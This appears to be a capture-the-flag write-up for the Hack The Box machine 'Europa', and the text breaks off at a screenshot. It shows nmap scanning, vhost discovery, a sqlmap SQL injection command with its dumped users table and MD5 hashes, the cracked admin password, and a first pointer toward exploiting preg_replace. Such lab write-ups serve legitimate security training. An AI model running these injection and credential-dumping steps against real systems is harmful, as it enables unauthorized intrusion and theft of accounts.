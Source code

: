 # Europa
#### 10.10.10.22

**Nmap**

```{r, engine='bash', count_lines}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
|_SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Opening :443 and :80 in browser doesn't give us anything relevant. However this line in the nmap scan looks interesting.

```
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
```

So lets change our hosts file accordingly and add:

```
10.10.10.22		admin-portal.europacorp.htb
```

Opening https://admin-portal.europacorp.htb now, redirects us to a login form. 
Lets see if the email or password is vulnerable to sql injection:

```
sqlmap -u https://admin-portal.europacorp.htb/login.php --data="email=abc'&password='" --dbms="MySQL" --technique=E  --dump --threads 8 --dbs

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

Awesome, we got a login name: **admin@europacorp.htb** and password hash: **2b6d315337f18617ba18922c0b9597ff**.
Decrypting the md5 hash with some online tools will translate to: **SuperSecretPassword!**
So our login is
**admin@europacorp.htb:SuperSecretPassword!**

Pretty sure we need to exploit the **OpenVPN Config Generator** located at https://admin-portal.europacorp.htb/tools.php. So after filling in a IP address a config gets generated with our IP address filled in at the locations of ip_address. After googling a bit we found out that the php function **preg_replace** is exploitable.

Okay intercepting the POST with BurpSuite and send it to the Repeater will leave us with a screen like this:
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/europa_burp.png "BurpSuite")



